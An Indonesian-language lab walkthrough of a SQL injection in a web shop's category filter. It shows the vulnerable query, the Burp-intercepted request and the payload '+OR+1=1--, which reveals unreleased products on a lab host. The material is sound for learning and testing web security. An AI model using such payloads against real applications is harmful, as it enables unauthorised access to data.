


# SQL Injection in WHERE Clause (Retrieve Hidden Data)

## Challenge Overview

**Title:** SQL Injection in WHERE Clause (Retrieve Hidden Data)

**Category:** Injection

Lab ini memiliki kerentanan **SQL Injection** pada filter kategori produk. Query SQL yang dijalankan aplikasi mengambil data produk berdasarkan kategori tertentu, namun input tidak divalidasi dengan benar. Dengan melakukan injection, kita dapat memodifikasi query untuk menampilkan produk yang seharusnya tersembunyi (unreleased).

---

## Tools Used

* **Web Browser** – Untuk mengakses aplikasi.
* **Burp Suite** – Untuk mengintersep dan memodifikasi HTTP request.

---

## Step by Step Solution

### 1. Analisis Query Asli

Saat memilih kategori "Gifts", aplikasi menjalankan query seperti berikut:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1;
```

`released = 1` memastikan hanya produk yang sudah dirilis yang tampil.

---

### 2. Intersep Request dengan Burp Suite

Gunakan Burp Suite untuk menangkap request ketika memilih kategori.
Contoh request asli:

```http
GET /filter?category=Gifts HTTP/1.1
Host: acme.lab
Cookie: session=xyz
```



---

### 3. Modifikasi Parameter `category`

Untuk mengeksploitasi SQLi, kita tambahkan kondisi `OR 1=1` sehingga query menjadi:

```sql
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1;
```

Payload yang dipakai:

```
'+OR+1=1--
```

Request hasil modifikasi:

```http
GET /filter?category='+OR+1=1-- HTTP/1.1
Host: acme.lab
Cookie: session=xyz
```

---

### 4. Kirimkan Request

Setelah request dikirimkan, server merespons dengan menampilkan **semua produk**, termasuk yang sebelumnya tersembunyi (unreleased).


